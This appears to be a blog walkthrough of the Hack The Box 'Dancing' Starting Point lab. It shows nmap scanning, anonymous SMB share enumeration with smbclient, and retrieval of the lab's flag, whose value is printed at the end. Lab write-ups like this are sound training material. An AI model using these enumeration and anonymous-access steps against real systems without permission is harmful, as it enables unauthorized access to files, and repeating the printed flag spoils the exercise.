


:::caution[Machine Information]
- **Platform:** HTB
- **Lab:** Starting Point
- **OS:** Windows
- **Difficulty:** Very Easy
- **IP:** `10.129.1.12`
:::

---

# Step 0: Getting Started

If you're not sure how to get started, [this will help.](https://www.cybalp.me/posts/CTF!/ctf-start/)

```bash

mkdir -p HTB/LAB/DANCING && cd HTB/LAB/DANCING
IP=10.129.1.12 && ping -c 2 $IP

```

>  See also: [Here.](https://www.cybalp.me/posts/CTF!/htb-fawn/#step-0-getting-started)

YEP!

---

# Step 1: Recon

```bash
nmap -sC -sV $IP
```



**445/tcp (SMB)** is open. Try microsoft-ds — SMB share enumeration.

---

# Step 2: Solution

## SMB Share List

```bash
smbclient -L //$IP # list
```

```bash
smbclient -N //$IP/WorkShares # Connect
```

Password: Enter 

## Flag

```bash
ls
cd James.P
ls
get flag.txt
exit
```

# Flag

```bash
cat flag.txt
```



```
5f61c10dffbc77a704d76016a22f1664
```

and PASTE!
